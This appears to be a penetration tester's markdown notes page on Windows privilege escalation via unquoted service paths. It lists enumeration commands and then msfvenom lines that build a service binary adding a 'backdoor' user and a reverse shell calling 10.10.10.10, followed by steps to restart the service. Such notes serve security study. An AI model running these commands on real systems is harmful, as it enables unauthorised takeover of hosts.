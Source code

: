#### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview 

```markdown
```
## Enumeration 

### Script Enumeration

```markdown
# PowerUp Obfuscated
GitHub Fetch Scipt > Execute! 
```

### Manual Enumeration
```
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths
## 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary

```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- Restart Machine
	- ``

## Resources

```markdown
```

#### Notes | Bonus
- Create Links to this Page! 
